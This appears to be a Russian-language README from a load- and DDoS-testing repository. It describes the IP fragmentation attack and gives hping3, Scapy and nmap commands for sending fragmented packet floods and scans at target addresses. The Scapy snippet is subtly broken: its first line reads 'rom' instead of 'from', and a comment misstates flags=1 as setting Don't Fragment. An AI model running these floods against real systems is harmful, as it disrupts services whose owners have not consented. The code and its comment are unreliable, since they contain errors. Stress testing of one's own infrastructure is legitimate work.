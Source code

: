 # IP_FRAG Attack

Тип атаки, при которой злоумышленник отправляет фрагментированные IP-пакеты, занимающие значительные ресурсы для их сборки и обработки. Проведение нагрузочного тестирования с использованием IP FRAG ATTACK позволяет выявить уязвимости в обработке фрагментированных пакетов системой, оценить ее степень устойчивости к такого рода атакам и принять меры по усилению защиты.

#### Методы реализации
Для эмуляции IP FRAG Attack можно использовать такие инструменты, как hping3, Scapy, nmap, metasploit:
```
hping3 TARGET_IP --icmp --frag 16
```

```
rom scapy.all import * 
 
# Создание фрагментированного IP-пакета 
ip = IP(dst="192.168.1.1", flags=1, frag=0, id=1000)  # Устанавливаем флаг DF (Don't Fragment) и идентификатор 
icmp = ICMP()  # Создаем ICMP пакет для вложения в IP-пакет 
 
packet = ip/icmp  # Собираем IP пакет с ICMP заголовком 
 
# Фрагментирование пакета 
fragments = fragment(packet, fragsize=100) 
 
# Отправка фрагментированных пакетов 
send(fragments) 
```

```
nmap -sS -p 80 -f 192.168.1.1
```

В [jmeter](https://github.com/Fireng/Load-Stress-DDoS-Test/blob/main/IP_FRAG/IP_FRAG.jmx) описан метод с использованием nmap
![IP Frag Attack example img](https://github.com/Fireng/Load-Stress-DDoS-Test/blob/main/assets/images/IP_FRAG_Exmp.png)
